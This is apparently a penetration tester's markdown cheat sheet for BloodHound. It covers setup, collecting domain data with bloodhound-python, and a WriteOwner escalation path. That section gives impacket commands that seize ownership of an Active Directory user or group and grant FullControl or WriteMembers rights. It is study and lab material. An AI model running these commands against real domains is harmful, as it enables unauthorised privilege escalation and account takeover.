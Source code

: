 ## Bloodhound Setup
https://www.kali.org/tools/bloodhound/

```
sudo neo4j start
# go to http://localhost:7474 an change default credentials
bloodhound
# authenticate with the new credentials
```
 ## Data collection
### SharpHound
Only on Windows

### BloodHound.py
https://www.kali.org/tools/bloodhound.py/

```
# -c All to collect everything
bloodhound-python -d <domain> -u <user> -p <password> -ns <DC IP> -c All
```
### Import data
1. In BloodHound GUI → click Upload Data (usually top-right, cloud-upload icon).
2. Select the directory or files → pick all your .json files from BloodHound.py.
3. BloodHound will parse and import the data into Neo4j.
   
 ## Running queries
1. Go through all owned accounts and mark them as owned (RMB -> Mark as owned)
2. Go through all interesting accounts and mark as High value
3. Go through pre-built queries, Click on nodes etc.

## Escalation Paths

### WriteOwner
[User1] --WriteOwner-> [User2/Group2]

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
```
# User
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'FullControl' -principal '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
# Group
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'WriteMembers' -principal '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
```
